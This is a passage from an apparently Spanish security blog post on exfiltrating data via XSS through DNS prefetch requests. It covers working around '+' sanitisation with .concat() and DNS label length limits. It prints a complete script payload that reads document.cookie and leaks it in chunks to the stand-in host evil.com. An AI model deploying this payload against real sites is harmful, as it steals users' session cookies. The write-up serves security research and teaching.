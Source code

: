 ### Concatenación

Otro problema que no teníamos contemplado fue que la concatenación mediante '+' no funcionaba (al menos en Firefox) ya que el propio navegador sanitizaba este carácter de la URL en la respuesta.
{: style="text-align: justify;"}

[![Test XSS Simple ](https://donttouchmynet.github.io/assets/images/old/Screenshot-2019-01-18-at-08.24.10.png)\
](https://donttouchmynet.github.io/assets/images/old/Screenshot-2019-01-18-at-08.24.10.png)

[![XSS: Concatenación con + no funciona](https://donttouchmynet.github.io/assets/images/old/Screenshot-2019-01-18-at-08.24.19.png)](https://donttouchmynet.github.io/assets/images/old/Screenshot-2019-01-18-at-08.24.19.png)

Pero como siempre, hay una manera de bypassar la restricción... .concat()
{: style="text-align: justify;"}

[![XSS: Ejecución de XSS de test](https://donttouchmynet.github.io/assets/images/old/Screenshot-2019-01-18-at-20.40.05-1024x429.png)](https://donttouchmynet.github.io/assets/images/old/Screenshot-2019-01-18-at-20.40.05.png)[![XSS: solución a concatenación](https://donttouchmynet.github.io/assets/images/old/Screenshot-2019-01-18-at-20.40.24.png)](https://donttouchmynet.github.io/assets/images/old/Screenshot-2019-01-18-at-20.40.24.png)

Perfecto.

### Sesión y limite de caracteres

El último problema fue que sólo teníamos 63 caracteres como máximo para exfiltrar datos. **Estos 63 caracteres vienen** dados de que el protocolo DNS sólo permite 63 caracteres por subdominio. Así pues, para poder exfiltrar cadenas de texto mayores a 63 caracteres, necesitamos un *loop *que construya e inyecte tantos tag *<label>* como sea necesario. 
{: style="text-align: justify;"}

Además, tenemos que poder relacionar las llamadas DNS relativas a una misma ejecución. Para este punto con generar una string aleatoria de sesión deberíamos tener suficiente. 
{: style="text-align: justify;"}

BRBRRBRBRBRBRBR!

[![XSS DNS Exfiltrator](https://donttouchmynet.github.io/assets/images/old/Cool-Painted-Kitchen-Aid-Mixer-Art1-240x300.jpg)](https://donttouchmynet.github.io/assets/images/old/Cool-Painted-Kitchen-Aid-Mixer-Art1.jpg)

DING!
```
<script>t=40;dm='evil.com';k2="-xss1";d=document;c=d.cookie;function v(dm, d, c){m="";for(var x in c){k=Math.random().toString(36).substring(7);m=m.concat(c.charCodeAt(x).toString(16).padStart(2,0))};iter=[];p=0;x=0;it=(m.length/t);for(i=[];i.length<=it;){i.push(1);iter.push(m.slice(iter.length*t,i.length*t));};for(var o in iter){l=d.createElement('link');l.rel='dns-prefetch';l.href='http://XXX3.YYY3.SESSION3.DOMAIN'.replace('XXX3',iter[o]).replace('YYY3',o).replace('SESSION3',k.concat(k2)).replace('DOMAIN',dm);h=d.getElementsByTagName('head')[0];h.appendChild(l);};};v(dm,d,c)</script>
```
Si hacemos una prueba manual, veréis cómo inyectamos varias cabeceras <link> al cargar la página. 
{: style="text-align: justify;"}

Servidor DNS
------------
